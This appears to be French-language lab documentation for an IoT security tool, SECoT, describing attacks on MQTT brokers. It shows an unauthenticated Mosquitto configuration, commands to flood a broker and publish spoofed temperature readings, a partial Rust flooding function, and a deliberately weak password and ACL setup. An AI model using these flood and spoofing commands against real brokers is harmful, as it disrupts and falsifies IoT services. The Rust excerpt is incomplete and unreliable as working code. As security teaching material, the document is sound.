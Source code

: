 # Phase 2 : Exploitation des IoT – Scénarios Réalistes

## Scénario 1 : MQTT sans authentification ni chiffrement

### Configuration
```bash
# Configuration du broker Mosquitto sans sécurité
listener 1883
allow_anonymous true
```

### Vulnérabilités
- Interception des données sensibles
- Attaques de type spoofing
- Déni de service (DoS)

### Exemple d'Attaque avec SECoT
```bash
# Commande pour inonder le broker MQTT
SECoT mqtt-attack --broker 192.168.1.100 --port 1883 flood --topic test/flood --count 1000

# Commande pour publier des données falsifiées
SECoT mqtt-attack --broker 192.168.1.100 --port 1883 fake-publish --topic weather/temperature --payload "100" --count 10
```

### Code Source de l'Attaque
```rust
// Extrait de SECoT_CLI_Tool/src/attack_modules/mqtt_attacks.rs
pub async fn flood_broker(broker: &str, port: u16, topic: &str, count: u32) -> Result<(), Box<dyn std::error::Error>> {
    let mut mosquitto_pub_command = Command::new("mosquitto_pub");
    mosquitto_pub_command
        .arg("-h").arg(broker)
        .arg("-p").arg(port.to_string())
        .arg("-t").arg(topic)
        .arg("-m").arg("flood_message")
        .arg("-r");  // Mode répétition pour le DoS
}
```

## Scénario 2 : MQTT avec mot de passe simple

### Configuration
```bash
# Fichier mosquitto_passwd
user1:1234
user2:5678
admin:9999

# Fichier ACL (mosquitto_acl.conf)
user user1
topic read weather/#
topic write weather/temperature

user user2
topic read home/#
topic write home/lights

user admin
topic readwrite #
```